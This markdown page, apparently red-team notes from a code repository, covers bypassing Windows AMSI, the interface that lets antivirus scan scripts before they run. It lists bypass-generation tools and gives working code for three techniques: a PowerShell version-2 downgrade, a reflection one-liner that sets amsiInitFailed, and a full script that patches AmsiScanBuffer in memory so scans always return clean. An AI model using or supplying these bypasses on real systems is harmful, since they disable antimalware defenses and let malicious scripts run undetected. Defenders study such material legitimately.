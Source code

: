 # Anti-Malware Scan Interface

## Overview

Anti-Malware Scan Interface (AMSI) is an API that allows applications and services (like PowerShell, Windows Script Host, or Office macros) to send potentially suspicious scripts or code to installed antivirus/antimalware solutions for scanning before execution.

## Automating AMSI Bypasses
[AMSI.fail](https://amsi.fail/) - generates obfuscated, randomly selected from a small pool PowerShell snippets that break or disable AMSI.
[AMSITrigger v3](https://github.com/RythmStick/AMSITrigger) allows attackers to automatically identify strings that are flagging signatures to modify and break them. Example:
```
AmsiTrigger_x64.exe -i test_bypass.ps1 -f 3
```


## AMSI Bypasses
### PowerShell Downgrade
`PowerShell Downgrade` is when an attacker launches `PowerShell v2` (or otherwise forces an older runspace) to dodge modern defenses like AMSI and Script Block Logging, which are built into v5+.
```
PowerShell -Version 2
```


### PowerShell Reflection
Reflection allows a user or administrator to access and interact with .NET assemblies.

```
[Ref].Assembly.GetType('System.Management.Automation.AmsiUtils').GetField('amsiInitFailed','NonPublic,Static').SetValue($null,$true)
```

### Patching AMSI
Patching AMSI allows attacker  to alter AMSI DLL (like `amsi.dll`) or overwrite functions (such as `AmsiScanBuffer`) in memory so that scans always succeed (i.e., return clean) — bypassing detection.

AMSI patching can be broken up into four steps,
1. Obtain handle of amsi.dll
2. Get process address of `AmsiScanBuffer`
3. Modify memory protections of `AmsiScanBuffer`
4. Write opcodes to `AmsiScanBuffer`

```powershell
$MethodDefinition = "

    [DllImport(`"kernel32`")]
    public static extern IntPtr GetProcAddress(IntPtr hModule, string procName);

    [DllImport(`"kernel32`")]
    public static extern IntPtr GetModuleHandle(string lpModuleName);

    [DllImport(`"kernel32`")]
    public static extern bool VirtualProtect(IntPtr lpAddress, UIntPtr dwSize, uint flNewProtect, out uint lpflOldProtect);
";

$Kernel32 = Add-Type -MemberDefinition $MethodDefinition -Name 'Kernel32' -NameSpace 'Win32' -PassThru;
$handle = [Win32.Kernel32]::GetModuleHandle('amsi.dll');
[IntPtr]$BufferAddress = [Win32.Kernel32]::GetProcAddress($handle, 'AmsiScanBuffer');
[UInt32]$Size = 0x5;
[UInt32]$ProtectFlag = 0x40;
[UInt32]$OldProtectFlag = 0;
[Win32.Kernel32]::VirtualProtect($BufferAddress, $Size, $ProtectFlag, [Ref]$OldProtectFlag);
$buf = [Byte[]]([UInt32]0xB8,[UInt32]0x57, [UInt32]0x00, [Uint32]0x07, [Uint32]0x80, [Uint32]0xC3);

[system.runtime.interopservices.marshal]::copy($buf, 0, $BufferAddress, 6);
```
